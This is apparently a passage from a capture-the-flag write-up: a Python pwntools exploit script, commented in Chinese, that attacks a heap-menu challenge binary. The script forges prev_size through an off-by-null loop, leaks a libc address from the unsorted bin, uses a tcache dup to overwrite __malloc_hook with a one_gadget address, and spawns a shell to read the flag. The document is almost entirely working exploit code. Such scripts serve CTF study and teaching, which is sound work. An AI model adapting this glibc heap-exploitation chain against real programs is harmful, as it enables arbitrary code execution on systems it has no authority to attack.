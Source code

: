    ```python
   
   def free(index):
       p.sendline(b'3')
       p.sendline(str(index).encode())
   
   one_gadget = [0x4f2be,0x4f2c5,0x4f322,0x10a38c]
   
   add(0x410,b"a") #0
   add(0x18,b"a")  #1
   add(0x4f0,b"a") #2
   add(0x20,b'a')  #3
   
   free(0) #为unlink做准备
   
   #清空chunk2的prev_inuse位，并伪造prev_size位，利用循环将prev_size位中的高位清空
   free(1)
   for i in range(0,9):
       add(0x18-i,b"a"*(0x18-i))   #0
       free(0)
       print("count",i)
   
   payload0 = b"a"*0x10+p64(0x420+0x20)
   add(0x18,payload0)  #0
   
   # 泄漏libc地址
   free(2)
   add(0x410,b"libc leak") #1
   show(0)
   
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   malloc_hook_addr = libc.symbols["__malloc_hook"] + libc_base
   success("malloc_hook_addr==>"+hex(malloc_hook_addr))
   
   #tcache dup
   add(0x18,b"tcache dup") #2
   free(0)
   free(2)
   
   add(0x18,p64(malloc_hook_addr)) #0
   
   add(0x18,b"d")  #2
   exeve_addr = one_gadget[2]+libc_base
   success("exeve_addr==>"+hex(exeve_addr))
   payload = p64(exeve_addr)
   add(0x18,payload)
   add(0x18,b"get shell")
   
   p.sendline(b"cat flag")
   p.interactive()
   ```
